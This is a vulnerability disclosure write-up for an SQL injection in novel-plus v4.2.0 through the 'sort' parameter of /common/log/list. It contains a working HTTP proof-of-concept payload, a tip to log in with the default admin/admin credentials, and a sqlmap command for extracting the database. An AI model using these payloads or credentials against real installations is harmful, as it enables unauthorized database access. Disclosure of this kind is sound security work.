








# Vulnerability Submitter

Name：qinruiqi

GitHub address：https://github.com/JunFengDeng/qinruiqi/edit/main/20231027/vuln/readme.md

# SQL injection vulnerability exists in novel-plus v4.2.0

Affected version: v4.2.0

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

## Vulnerability Overview

SQL injection vulnerability in Novel-Plus v.4.2.0 allows a remote attacker to execute arbitrary code via a crafted script to the sort parameter in /common/log/list.

## Vulnerability details

Vulnerability route: /common/log/list

Vulnerable parameter: sort

### **Vulnerability source file path 1:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\controller



#### **Vulnerability source file path 2:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\utils\Query.java



#### **Vulnerability source file path 3:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\service\LogService.java



In the LogController class, the @GetMapping("/list") annotation indicates that this method handles GET requests and returns a PageDO<LogDO> object.
In this method, the params parameters obtained from the @RequestParam annotation will be used to construct a Query object and passed to the logService.queryList(query) method for querying.

#### **Vulnerability source file path 4:**

novel-plus-develop_xxy\novel-admin\src\main\resources\mybatis\common\LogMapper.xml



It can be seen that the sort parameter is not verified, filtered, and escaped. An attacker can use malicious input to inject arbitrary SQL code. 

**POC**

"Login to the backend using the default account username/password 'admin/admin' to obtain the administrator cookie."



SQL injection, closure failed, error displayed



SQL injection, successful closure, normal display  



#### **POC**

```http
GET /common/log/list?limit=10&offset=0&sort=(SELECT+(CASE+WHEN+(1=1)+THEN+''+ELSE+(SELECT+1+UNION+SELECT+2)+END))&username HTTP/1.1
Host: 192.168.52.163:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Use SQLmap to extract the current database

SQLmap command

```python
python sqlmap.py -u "http://192.168.52.163:8088/common/log/list?limit=10&offset=0&sort=&username=" --cookie "JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804" -p "sort" --level 3  --current-db --batch
```



